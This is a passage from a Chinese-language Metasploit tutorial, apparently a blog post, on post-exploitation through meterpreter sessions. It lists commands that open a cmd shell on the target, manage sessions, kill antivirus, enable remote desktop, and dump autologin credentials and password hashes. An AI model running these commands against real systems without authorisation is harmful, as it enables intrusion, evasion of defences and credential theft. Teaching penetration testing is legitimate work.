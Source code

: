 我们输入： shell即可切换到目标主机的windows cmd_shell里面：

```bash
shell         #获取目标主机的cmd_shell权限
chcp 65001    #这里为了避免目标主机cmd_shell字符乱码，设置目标主机命令行的字符编码，65001是UTF-8
```

要想从目标主机shell退出到`meterpreter` ，我们只需输入：`exit`

从meterpreter退出到MSF框架:  我们只需输入：background 

![image-20250408162805517](https://gitee.com/ljh00928/csdn/raw/master/img/bb12c581aa08acf64bf261d62518748f.png)

查看前面获得的`meterpreter_shell`会话，最前面的数字是会话的id：

```bash
sessions  -l
```

![image-20250408162851667](https://gitee.com/ljh00928/csdn/raw/master/img/33b7a7363d7ed55e6738611e83815dba.png)

输入sessions [id号]即可进入相应的`meterpreter_shell`中：

```bash
sessions 3
```

![image-20250408162947189](https://gitee.com/ljh00928/csdn/raw/master/img/e52adff932b6f19d7c4a2466d537ce9a.png)

### **7.1 Post 后渗透模块**

该模块主要用于在取得目标主机系统远程控制权后，进行一系列的后渗透攻击动作。

```apl
run post/windows/manage/migrate                			#自动进程迁移
run post/windows/gather/checkvm                			#查看目标主机是否运行在虚拟机上
run post/windows/manage/killav                			#关闭杀毒软件
run post/windows/manage/enable_rdp            			#开启远程桌面服务
run post/windows/manage/autoroute              			#查看路由信息
run post/windows/gather/enum_logged_on_users    		#列举当前登录的用户
run post/windows/gather/enum_applications       		#列举应用程序
run post/windows/gather/credentials/windows_autologin 	#抓取自动登录的用户名和密码
run post/windows/gather/smart_hashdump               	#dump出所有用户的hash
```

输入：sysinfo 查看目标主机的信息:

![image-20250408163406636](https://gitee.com/ljh00928/csdn/raw/master/img/a31f9015408fc38a60689da439e65257.png)

### **7.2 查看主机是否运行在虚拟机上:**

查看主机是否运行在虚拟机上，可以看出主机是在虚拟机环境

```apl
run post/windows/gather/checkvm
```

![image-20250408163511981](https://gitee.com/ljh00928/csdn/raw/master/img/4fc8a9acb2f04bbe52d3d42846e6534d.png)
